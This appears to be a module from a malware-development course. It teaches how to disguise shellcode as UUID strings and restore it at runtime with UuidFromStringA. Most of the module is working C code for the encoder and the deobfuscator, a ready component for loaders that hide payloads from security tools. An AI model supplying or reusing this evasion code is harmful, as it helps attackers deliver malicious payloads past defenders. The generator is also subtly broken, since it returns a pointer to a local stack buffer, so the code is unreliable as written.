


Introduction
In this module, another obfuscation technique is covered which converts shellcode to a Universally Unique IDentifier (UUID) string. UUID is a 36-character alphanumeric string that can be used to identify information.
UUID Structure
The UUID format is made up of 5 segments of different sizes which look something like this: 801B18F0-8320-4ADA-BB13-41EA1C886B87. The image below illustrates the UUID structure.

Converting UUID to shellcode is a little less straightforward than the previous obfuscation methods. For example FC 48 83 E4 F0 E8 C0 00 00 00 41 51 41 50 52 51 does not translate into FC4883E4-F0E8-C000-0000-415141505251, instead, it becomes E48348FC-E8F0-00C0-0000-415141505251.
Notice that the first 3 segments are using the same bytes in our shellcode but the order is in reverse. The reason is that the first three segments use little-endian byte ordering. To ensure complete understanding, the segments are broken down below.
Little Endian
FC 48 83 E4 becomes E4 83 48 FC in the UUID stringE8 F0 becomes F0 E8 in the UUID stringC0 00 becomes 00 C0 in the UUID stringBig Endian
00 00 becomes 00 00 in the UUID string41 51 41 50 52 51 becomes 41 51 41 50 52 51 in the UUID stringUUIDFuscation Implementation
A UUID address is made up of 16 bytes, therefore the shellcode should be a multiple of 16. UUIDFuscation will resemble IPv6Fuscation closely due to both requiring shellcode multiples of 16 bytes. Again, padding can be used if the shellcode doesn't meet that requirement.
// Function takes in 16 raw bytes and returns them in a UUID string format
char* GenerateUUid(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {
// Each UUID segment is 32 bytes
char Output0[32], Output1[32], Output2[32], Output3[32];
// There are 4 segments in a UUID (32 * 4 = 128)
char result[128];
// Generating output0 from the first 4 bytes
sprintf(Output0, "%0.2X%0.2X%0.2X%0.2X", d, c, b, a);
// Generating output1 from the second 4 bytes
sprintf(Output1, "%0.2X%0.2X-%0.2X%0.2X", f, e, h, g);
// Generating output2 from the third 4 bytes
sprintf(Output2, "%0.2X%0.2X-%0.2X%0.2X", i, j, k, l);
// Generating output3 from the last 4 bytes
sprintf(Output3, "%0.2X%0.2X%0.2X%0.2X", m, n, o, p);
// Combining Output0,1,2,3 to generate the UUID
sprintf(result, "%s-%s-%s%s", Output0, Output1, Output2, Output3);
//printf("[i] result: %s\n", (char*)result);
return (char*)result;
}
// Generate the UUID output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateUuidOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 16, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0) {
return FALSE;
}
printf("char* UuidArray[%d] = { \n\t", (int)(ShellcodeSize / 16));
// We will read one shellcode byte at a time, when the total is 16, begin generating the UUID string
// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
int c = 16, counter = 0;
char* UUID = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the UUID string
if (c == 16) {
counter++;
// Generating the UUID string from 16 bytes which begin at i until [i + 15]
UUID = GenerateUUid(
pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
pShellcode[i + 8], pShellcode[i + 9], pShellcode[i + 10], pShellcode[i + 11],
pShellcode[i + 12], pShellcode[i + 13], pShellcode[i + 14], pShellcode[i + 15]
);
if (i == ShellcodeSize - 16) {
// Printing the last UUID string
printf("\"%s\"", UUID);
break;
}
else {
// Printing the UUID string
printf("\"%s\", ", UUID);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 3 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}UUID Deobfuscation Implementation
Although different segments have different endianness, that will not affect the deobfuscation process because the UuidFromStringA WinAPI takes care of this.
typedef RPC_STATUS (WINAPI* fnUuidFromStringA)(
RPC_CSTR StringUuid,
UUID* Uuid
);
BOOL UuidDeobfuscation(IN CHAR* UuidArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
RPC_STATUS STATUS = NULL;
// Getting UuidFromStringA address from Rpcrt4.dll
fnUuidFromStringA pUuidFromStringA = (fnUuidFromStringA)GetProcAddress(LoadLibrary(TEXT("RPCRT4")), "UuidFromStringA");
if (pUuidFromStringA == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of UUID strings * 16
sBuffSize = NmbrOfElements * 16;
// Allocating memory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBuffSize);
if (pBuffer == NULL) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Setting TmpBuffer to be equal to pBuffer
TmpBuffer = pBuffer;
// Loop through all the UUID strings saved in UuidArray
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one UUID string at a time
// UuidArray[i] is a single UUID string from the array UuidArray
if ((STATUS = pUuidFromStringA((RPC_CSTR)UuidArray[i], (UUID*)TmpBuffer)) != RPC_S_OK) {
// if it failed
printf("[!] UuidFromStringA Failed At [%s] With Error 0x%0.8X", UuidArray[i], STATUS);
return FALSE;
}
// 16 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
TmpBuffer = (PBYTE)(TmpBuffer + 16);
}
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
}The image below shows the deobfuscation process successfully running.
